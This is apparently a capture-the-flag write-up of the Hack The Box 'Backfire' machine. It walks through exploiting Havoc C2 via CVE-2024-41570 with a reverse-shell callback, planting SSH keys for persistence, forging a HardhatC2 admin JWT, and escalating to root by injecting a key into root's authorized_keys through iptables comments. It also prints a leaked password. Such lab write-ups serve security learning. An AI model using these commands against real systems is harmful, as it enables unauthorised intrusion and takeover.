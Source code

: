## Initial Reconnaissance

### Port Enumeration

Investigating port `8000` revealed two interesting files:

* `havoc.yaotl`
* `disable_tls.patch`

These files appeared to be related to a Havoc C2 listener.

Inspecting `havoc.yaotl` uncovered credentials for users `ilya` and `sergej`. Despite obtaining these credentials, I was initially unable to access SSH.

## Exploitation via CVE-2024-41570 (Havoc C2 SSRF to RCE)

I realized there might be an SSRF to RCE vulnerability exploitable via Havoc C2. Leveraging CVE-2024-41570, I used the previously obtained credentials to exploit the server:

```bash
python3 exploit.py -t https://backfire.htb -i 127.0.0.1 -p 40056 -U 'ilya' -P 'CobaltStr1keSuckz!' -l 10.10.16.37 -L 3001
```

This successfully granted me shell access as the user `ilya`. However, the shell was unstable and frequently disconnected.

To ensure a stable connection, I decided to generate an SSH key pair and authorize it for user `ilya`:

```bash
ssh-keygen
eval "$(ssh-agent -s)"
ssh-add ~/.ssh/id_rsa
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
```

After this, I was able to log in reliably via SSH:

```bash
ssh ilya@backfire.htb -i ~/.ssh/id_rsa
```

## Lateral Movement via HardhatC2

While enumerating accessible ports and files, I noticed evidence indicating user `sergej` was running a HardhatC2 server. I suspected this might be leveraged for lateral movement.

To interact with HardhatC2, I performed SSH port forwarding:

```bash
ssh -L 7096:localhost:7096 -L 5000:localhost:5000 -L 40056:localhost:40056 ilya@backfire.htb -i ~/.ssh/id_rsa
```

Port `7096` was identified as the login panel for HardhatC2.

### Exploiting HardhatC2 via JWT Vulnerability

I found an article detailing how static JWT keys in HardhatC2 could be exploited to create an administrator account:

* Reference: [HardhatC2 0-days RCE & Auth Bypass](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7)

Following the provided script, I successfully forged an admin JWT and gained access to the HardhatC2 administrative interface. From there, I executed commands using the terminal functionality in the implants section.

Again, I added my SSH key for stable access, this time for user `sergej`.

## Privilege Escalation to Root

Checking `sergej`'s privileges revealed the ability to execute SUID binaries `iptables` and `iptables-save` as root. Given this capability, I attempted to escalate privileges by injecting my SSH key using iptables comments and saving these rules directly into the root’s authorized SSH keys.

Initially, overwriting `/etc/passwd` and `/etc/passwd.bak` wasn't effective because a cron job reverted changes. Instead, I focused on injecting an SSH key directly:

```bash
sudo /usr/sbin/iptables -A INPUT -i lo -m comment --comment $'\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAkuGVr+yFcYjNBCeizGyvCbi7x0vBFoVO7sjqhy0SXl gg@pop-os\n' -j ACCEPT
sudo iptables-save -f /root/.ssh/authorized_keys
```

This successfully injected my SSH key into the root user's authorized keys file.

### Accessing Root via SSH

With my key injected, I logged in as root:

```bash
ssh root@backfire.htb -i ~/.ssh/id_ed25519
```

Now with full access, I verified the privilege escalation was successful:

```bash
root@backfire:~# ls
a.txt  root.txt
```

This concluded my successful compromise and privilege escalation of the target.
